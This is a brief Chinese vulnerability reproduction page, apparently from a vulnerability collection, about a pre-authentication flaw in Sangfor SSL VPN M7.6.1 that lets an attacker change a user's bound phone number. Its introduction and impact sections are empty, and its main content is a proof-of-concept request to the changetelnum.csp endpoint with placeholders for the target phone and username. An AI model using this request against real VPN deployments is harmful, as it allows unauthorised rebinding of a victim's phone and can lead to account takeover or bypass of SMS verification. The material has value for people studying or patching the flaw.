深信服 SSL VPN - Pre Auth 修改绑定手机
======================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

老版本(M7.6.1)代码放上，看不懂的直接看 POC
吧；新版本的没绕成功还在审，所以不确定是不是这个

![1.png](./resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId24.png)

![2.png](./resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId25.png)

![3.png](./resource/深信服SSLVPN-PreAuth修改绑定手机/media/rId26.png)

### POC

    https://www.0-sec.org/por/changetelnum.csp?apiversion=1

    newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1

参考链接
--------

> https://blog.sari3l.com/
